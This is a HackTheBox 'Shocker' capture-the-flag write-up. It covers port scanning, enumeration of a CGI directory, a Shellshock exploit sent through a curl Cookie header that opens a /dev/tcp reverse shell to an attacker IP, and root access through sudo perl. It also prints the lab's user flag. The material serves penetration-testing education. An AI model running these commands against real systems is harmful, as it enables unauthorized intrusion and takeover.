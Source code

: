 ```yaml
---
title: "HackTheBox — Shocker Writeup"
date: 2020-10-27 16:28:00 +0530
categories: [HackTheBox,Linux Machine,Inprogress]
tags: [inprogress]
image: /assets/img/Posts/Shocker.png
---
```


> Shocker executive summary goes here ... to-do

## Task Overview

- Task in progress

## Reconnaissance

Starting with an `masscan` and `nmap` to find the open ports and services on `10.10.10.56`:

```shell
# sudo masscan -e tun0 -p0-65535 --max-rate 500 10.10.10.56

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-10-27 07:52:29 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 2222/tcp on 10.10.10.56                                   
Discovered open port 80/tcp on 10.10.10.56                                     
^Cwaiting several seconds to exit...   

```
```shell

$ nmap -sC -sV -p80,2222 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 16:02 AWST
Nmap scan report for 10.10.10.56
Host is up (0.26s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.02 seconds

```
### Webpage (Port 80)

![webpage](/assets/img/Posts/Shocker/port80.png)

Website doesn't have anything of interest to me at the moment.

Lets run a `gobuster`:

``` shell
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.56/ -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/27 16:10:12 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
===============================================================
2020/10/27 16:12:01 Finished
===============================================================
```


Intesting, we have a `/cig-bin/` directory. This can be utilised by admins to upload scripts that can be executed. Lets enumerate the folder for any scripts.


``` shell

# gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x py,sh,php,js -t 50


===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     py,sh,php,js
[+] Timeout:        10s
===============================================================
2020/10/27 16:15:23 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.py (Status: 403)
/.hta.sh (Status: 403)
/.hta.php (Status: 403)
/.hta.js (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.py (Status: 403)
/.htpasswd.sh (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.js (Status: 403)
/.htaccess (Status: 403)
/.htaccess.sh (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.js (Status: 403)
/.htaccess.py (Status: 403)
/user.sh (Status: 200)


```

Lets see what `/cgi-bin/user.sh` does, noting the `Status: 200`:

``` shell
$ curl http:/10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 04:27:22 up 28 min,  0 users,  load average: 0.08, 0.05, 0.01

```


Okay, as this is an easy box, we can assume (given the machine name) that shellshock is a good option to try

``` shell

$ curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.3/4443 0>&1' http://10.10.10.56/cgi-bin/user.sh

```

Listening with `nc` on port `4443` we catch the reverse shell:

``` shell

$ nc -nlvp 4443
listening on [any] 4443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.56] 45950
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ ls
ls
user.sh
shelly@Shocker:/usr/lib/cgi-bin$ 


```

Lets enumerate user and find the user flag:

``` shell

shelly@Shocker:/usr$ whoami
whoami
shelly
shelly@Shocker:/usr$ wc -c /home/shelly/user.txt
wc -c /home/shelly/user.txt
33 /home/shelly/user.txt
shelly@Shocker:/usr$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
2ec24e11320026d1e70ff3e16695b233
shelly@Shocker:/usr$ 

```

## Privilege Escalation 

Now with an easy box, first command that is always good is `sudo -l` to see where we can run `sudo` without giving a password.

``` shell

$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl


```

And we notice that perl infact has this configuration! Therefore we can use perl to spawn us a new elevated shell.


``` shell

$ sudo perl -e 'exec "/bin/bash"'
sudo perl -e 'exec "/bin/bash"'
whoami
root
wc -c /root/root.txt
33 /root/root.txt
cat /root/root.txt

```

Thanks for reading. BQ
